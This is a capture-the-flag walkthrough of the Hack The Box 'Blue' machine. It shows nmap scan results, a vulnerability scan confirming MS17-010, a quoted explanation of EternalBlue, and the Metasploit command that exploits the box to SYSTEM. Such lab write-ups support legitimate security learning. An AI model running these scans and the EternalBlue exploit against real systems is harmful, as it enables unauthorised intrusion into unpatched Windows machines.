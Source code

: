 ```yaml
---
title:     "Hack The Box - Blue"
tags: [windows,easy,eternalblue]
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-blue/1.png)

We are going to pwn Blue from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/51>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:
```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 SP1 (96%), Microsoft Windows Server 2008 SP2 (96%), Microsoft Windows 7 (96%), Microsoft Windows 7 SP0 - SP1 or Windows Server 2008 (96%), Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1 (96%), Microsoft Windows 7 SP1 (96%), Microsoft Windows 7 Ultimate (96%), Microsoft Windows 8.1 (96%), Microsoft Windows 8.1 Update 1 (96%), Microsoft Windows Vista or Windows 7 SP1 (96%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1m33s, deviation: 1s, median: 1m32s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-03-08T16:52:23+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-08T16:52:25
|_  start_date: 2020-03-08T16:46:59

```

The name of the box is hint, it may be ``eternalblue`` exploit.

We can check that by running nmap script.
>nmap -A -p445 --script vuln 10.10.10.40

```
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

```
So my guess is correct.
```
What Is EternalBlue?

EternalBlue is an exploit most likely developed by the NSA as a former zero-day. It was released in 2017 by the Shadow Brokers, a hacker group known for leaking tools and exploits used by the Equation Group, which has possible ties to the Tailored Access Operations unit of the NSA.

EternalBlue, also known as MS17-010, is a vulnerability in Microsoft's Server Message Block (SMB) protocol. SMB allows systems to share access to files, printers, and other resources on the network. The vulnerability is allowed to occur because earlier versions of SMB contain a flaw that lets an attacker establish a null session connection via anonymous login. An attacker can then send malformed packets and ultimately execute arbitrary commands on the target.
```

>https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue

>use exploit windows/smb/ms17_010_eternalblue

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-blue/2.png)

After Some attempts it worked.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-blue/3.png)<br/>
I got Authority\System directly.

